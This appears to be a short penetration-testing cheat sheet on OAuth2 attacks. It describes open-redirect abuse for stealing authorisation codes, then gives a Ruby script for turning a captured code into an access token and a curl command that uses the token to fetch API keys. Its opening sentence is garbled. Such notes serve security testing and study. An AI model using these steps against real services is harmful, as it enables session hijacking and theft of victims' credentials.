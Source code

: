 # OAuth2

## Open Redirect

When authorising with OAuth, then the redirect parameters for open redirects.  
This can be used to steal session codes from victims.  

## Get Access Tokens with Ruby

If you can create a resource, this script can be used with XSS or CSRF to steal sessions:  
Script from Louis at Pentesterlab  

```ruby
require 'oauth2'

callback = "[CALLBACK_URL]"
app_id = "[APPLICATION_ID]"

secret = "[SECRET]"
client = OAuth2::Client.new(app_id, secret, site: "[AUTHORIZATION_SERVER]")
client.auth_code.authorize_url(redirect_uri: callback)

code="[CODE]"
access = client.auth_code.get_token( code, redirect_uri: callback)
access.get("/api/user").parsed

puts access.token 
```

Feed the token returned from above into this command:  

```bash
curl -H 'Authorization: Bearer [TOKEN]' [RESOURCE_SERVER]/api/keys --dump-header -
```
